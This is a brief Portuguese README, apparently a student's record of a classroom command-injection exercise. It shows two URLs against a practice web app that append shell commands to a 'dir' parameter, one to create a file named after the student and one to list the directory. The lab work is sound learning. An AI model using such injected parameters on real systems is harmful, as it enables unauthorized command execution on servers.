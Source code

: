 # Command Injection

Essa prática foi feita na sala de aula, consistia na injeção de comando para a criação de um arquivo com meu nome.

- Criando o arquivo no servidor:
```
http://commandinjection.herokuapp.com/?dir=folder;touch esdrasemanuel.txt
```
- Listando:
```
http://commandinjection.herokuapp.com/?dir=folder;ls
```
